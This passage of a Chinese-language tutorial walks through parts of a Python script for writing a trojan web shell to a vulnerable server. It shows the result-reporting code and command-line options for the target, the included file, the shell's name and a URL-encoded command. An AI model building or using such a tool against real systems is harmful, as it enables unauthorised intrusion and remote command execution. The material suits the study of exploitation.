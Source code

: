 ```python
        if r.status_code == 200:
            ##返回木马路径
            print(f"木马访问路径：{url}:{port}/{contain}")
        else:
            print("木马疑似为写入失败！")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)
```

选项代码：

这里选项代码，需要注意 `-c`与`-e`必须一起使用，后面的提示我也写了，如果不一起使用，可能就会执行其他的语句或者直接报错。

```python
##添加url
parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
##添加端口
parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
##添加用户需要包含的文件名
parser.add_argument("-d", dest="document", required=False, type=str, default=None,
                        help="Include file name")
##添加木马名称
parser.add_argument("-c", dest="contain", required=False, default=None,
                        help="Trojan name (if selected, you must select the -e parameter to add the code to execute)")

##添加木马内的代码
parser.add_argument("-e", dest="execute", required=False, default=None,
                        help="Executed command (must take -c argument and URL encoded code)")
```

这里会发现`-c`是木马的文件名.后缀，`-e`是文件中的命令，这里还需要将命令进行`URL`编码，这里不在代码中进行编码，是由于如果在`cmd`中直接输入命令会出现无法输入的情况，当然这个是可以解决的：

首先输入的时候加上双引号，在代码中对输入进行的内容进行替换只取双引号直接的内容，如何进行`url`编码，传参上去执行，当然我不想写就这样吧！感兴趣的自己去修改一下代码，前往别脑子会了，手不会，多练习，不是看一遍后，就觉得编写代码这么简单，结果下次还不会。

![image-20240415140916285](assets/image-20240415140916285.png)
